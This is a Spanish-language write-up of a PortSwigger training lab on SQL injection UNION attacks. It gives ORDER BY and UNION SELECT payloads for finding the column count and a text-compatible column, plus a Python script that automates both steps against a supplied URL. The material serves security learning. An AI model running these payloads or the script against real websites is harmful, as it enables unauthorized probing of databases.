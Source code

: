 ```yaml
---
title: "04 SQL injection UNION attack, finding a column containing text"
collection: publications
category: portswigger
permalink: /publications/04_SQL injection UNION attack, finding a column containing text
excerpt: 'Este laboratorio contiene una vulnerabilidad de inyección SQL en el filtro de categoría de productos. Para resolver el laboratorio, realizamos un ataque de inyección SQL que devuelve una fila adicional que contiene el valor proporcionado. Esta técnica nos ayuda a determinar qué columnas son compatibles con datos de cadena.'
date: 2024-12-01
#venue: 'Journal 1'
#slidesurl: 'http://academicpages.github.io/files/slides1.pdf'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
citation: 'SQL injection UNION attack, finding a column containing text'
---
```


![logo]({{site.url}}/images/SQLi/sqli-4/logo.png)

## Descripción del laboratorio

![Descripción]({{site.url}}/images/SQLi/sqli-4/descripcion.png)

## Objetivo del laboratorio

Realizar un ataque de inyección SQL UNION que devuelva una fila adicional que contenga el valor proporcionado. Esta técnica le ayudará a determinar qué columnas son compatibles con datos de cadena.

## Determinar el numero de columnas retornadas por la consulta

Miramos la cantidad decolumnas retornar hasta que arroje error. Vemos que nos arroja 3 columnas.

```javascript
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

![Columnas]({{site.url}}/images/SQLi/sqli-4/columnas.png)

## Miramos que columna es de tipo 'String'

Inyectamos en cada una de ellas mirando cual podemos inyectar 'String'

```javascript
' UNION SELECT 'A', NULL, NULL--
' UNION SELECT NULL, 'A', NULL--
' UNION SELECT NULL, NULL, 'A'--
```

Como se observa el campo 2 es inyectable.

![Inyectable]({{site.url}}/images/SQLi/sqli-4/valor string.png)

Ahora procedemos a ingresar el valor que nos proporciona la plataforma a inyectar y poder completar el laboratorio

![Inyectable 2]({{site.url}}/images/SQLi/sqli-4/valor string 2.png)

```javascript
' UNION SELECT NULL, '7niuyJ', NULL--
```

![Inyectable]({{site.url}}/images/SQLi/sqli-4/Resuelto.png)

# Codigo Python
```python
import requests
import sys
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

proxies = {'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080'}

def exploit_sqli_column_number(url):
    path = "/filter?category=Gifts"
    for i in range(1,50):
        sql_payload = "'+order+by+%s--" %i
        r = requests.get(url + path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if "Internal Server Error" in res:
            return i -1
        i = i + 1
    return False

def exploit_sqli_string_field(url, num_col):
    path = "/filter?category=Gifts"
    for i in range(1, num_col+1):
        string = "'92xeVZ'"
        payload_list = ['null'] * num_col
        payload_list[i-1] = string
        sql_payload = "' union select " + ','.join(payload_list) + "--"
        r = requests.get(url +path + sql_payload, verify=False, proxies=proxies)
        res = r.text
        if string.strip('\'') in res:
            return i
    return False

if __name__ == '__main__':
    try:
        url = sys.argv[1].strip()
    except IndexError:
        print('[-] Usage: %s <url>' % sys.argv[0])
        print('[-] Example: %s www.example.com' % sys.argv[0])
        sys.exit(-1)

    print("[+] Figuring out number of columns...") 
    num_col = exploit_sqli_column_number(url)
    if num_col:
        print("[+] The number of columns is " + str(num_col) + ".")
        print("[+] Figuring out which column contains text...")
        string_column = exploit_sqli_string_field(url, num_col)
        if string_column:
            print("[+] The column that contains text is " + str(string_column)+".")
        else: 
            print("[-] We were not able to find a colimn that has a string data type.")
    else:
        print("[-] The SQLi attack was not successful.")
```